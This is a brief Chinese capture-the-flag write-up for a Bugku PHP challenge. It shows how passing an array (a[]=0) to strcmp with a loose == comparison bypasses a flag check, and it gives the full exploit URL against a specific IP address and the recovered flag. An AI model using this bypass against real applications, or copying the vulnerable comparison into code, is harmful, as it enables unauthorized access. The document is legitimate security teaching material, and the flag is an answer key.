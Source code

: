 # strcmp比较字符串





> ## strcmp比较字符串
>
> ### 50
>
> 
>
> <http://123.206.87.240:9009/6.php>
>
> <?php
> $flag = "flag{xxxxx}";
> if (isset($_GET['a'])) {
> if (strcmp($_GET['a'], $flag) == 0) //如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。
> //比较两个字符串（区分大小写）
> die('Flag: '.$flag);
> else
> print 'No';
> }
> ?>

## 1.php数组漏洞

> 但是如果我们传入非字符串类型的数据的时候，这个函数将发生错误，在5.3之前的php中，显示了报错的警告信息后，将return 0 ! 也就是虽然报了错，但却判定其相等了。
>
> 解这道题，就只要传入一个非字符串类型的变量即可，一般情况下，我们我们传数组

抱着尝试的心理 构造 `a[]=0`

即 `http://123.206.87.240:9009/6.php?a[]=0`

直接得到 `Flag: flag{bugku_dmsj_912k}`